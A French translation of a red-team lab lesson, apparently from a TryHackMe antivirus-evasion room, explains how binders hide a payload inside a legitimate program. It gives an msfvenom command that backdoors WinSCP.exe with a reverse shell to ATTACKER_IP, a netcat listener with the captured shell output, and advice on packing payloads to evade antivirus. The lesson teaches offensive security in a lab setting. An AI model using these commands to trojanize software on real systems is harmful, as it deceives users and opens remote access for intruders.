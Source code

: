 Bien qu'il ne s'agisse pas d'une méthode de contournement antivirus , les classeurs sont également importants lors de la conception d'une charge utile malveillante à distribuer aux utilisateurs finaux. Un classeur est un programme qui fusionne deux (ou plus) exécutables en un seul. Il est souvent utilisé lorsque vous souhaitez distribuer votre charge utile cachée dans un autre programme connu pour tromper les utilisateurs en leur faisant croire qu'ils exécutent un programme différent.

![5c72d80a077a1f8a813a70c01a6561e9](https://github.com/dsgsec/Red-Team/assets/82456829/53b0145f-9cce-4d80-b0ea-11dcec5a93f4)

Bien que chaque classeur puisse fonctionner légèrement différemment, ils ajouteront essentiellement le code de votre shellcode à l'intérieur du programme légitime et le feront exécuter d'une manière ou d'une autre.

Vous pouvez, par exemple, modifier le point d'entrée dans l'en-tête PE afin que votre shellcode s'exécute juste avant le programme, puis rediriger l'exécution vers le programme légitime une fois terminé. De cette façon, lorsque l'utilisateur clique sur l'exécutable résultant, votre shellcode sera d'abord exécuté silencieusement et continuera à exécuter le programme normalement sans que l'utilisateur ne s'en aperçoive.

Liaison avec msfvenom

Vous pouvez facilement insérer une charge utile de votre choix dans n'importe quel fichier .exe avec `msfvenom`. Le binaire fonctionnera toujours comme d'habitude mais exécutera une charge utile supplémentaire en silence. La méthode utilisée par msfvenom injecte votre programme malveillant en créant un thread supplémentaire pour celui-ci, elle est donc légèrement différente de ce qui a été mentionné précédemment mais permet d'obtenir le même résultat. Avoir un thread séparé est encore mieux puisque votre programme ne sera pas bloqué en cas d'échec de votre shellcode pour une raison quelconque.

Pour cette tâche, nous allons détourner l'exécutable WinSCP disponible sur `C:\Tools\WinSCP`.

Pour créer un WinSCP.exe de porte dérobée, nous pouvons utiliser la commande suivante sur notre machine Windows :

Remarque : Metasploit est installé sur la machine Windows pour votre commodité, mais la génération de la charge utile peut prendre jusqu'à trois minutes (les avertissements générés peuvent être ignorés en toute sécurité).

Boîte d'attaque

```
C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

Le WinSCP-evil.exe résultant exécutera une charge utile reverse_tcp Meterpreter sans que l'utilisateur ne s'en aperçoive. Avant toute chose, pensez à configurer un `nc`écouteur pour recevoir le shell inversé. Lorsque vous exécutez votre exécutable dérobé, il devrait vous lancer un shell inversé tout en continuant à exécuter WinSCP.exe pour l'utilisateur :

| ![06c3bd06d935a937b2af7dace6a41a27](https://github.com/dsgsec/Red-Team/assets/82456829/950eb190-82d0-47cb-9e84-c6c465478194) | ➜ |

Boîte d'attaque

```
user@attackbox$ nc -lvp 7779
Listening on 0.0.0.0 7779
Connection received on 10.10.183.127 49813
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

 |

Classeurs et AV

Les classeurs ne feront pas grand-chose pour cacher votre charge utile à une solution audiovisuelle . Le simple fait de joindre deux exécutables sans aucune modification signifie que l'exécutable résultant déclenchera toujours toute signature effectuée par la charge utile d'origine.

L'utilisation principale des classeurs est de tromper les utilisateurs en leur faisant croire qu'ils exécutent un exécutable légitime plutôt qu'une charge utile malveillante.

Lors de la création d'une charge utile réelle, vous souhaiterez peut-être utiliser des encodeurs, des crypteurs ou des packers pour masquer votre shellcode des AV basés sur des signatures, puis le lier à un exécutable connu afin que l'utilisateur ne sache pas ce qui est exécuté.

N'hésitez pas à essayer de télécharger votre exécutable lié sur le site Web de THM Antivirus Check (lien disponible sur votre bureau) sans aucun emballage, et vous devriez obtenir une détection en retour du serveur, cette méthode ne sera donc pas d'une grande aide lorsque vous essayez de obtenir le drapeau du serveur par lui-même.
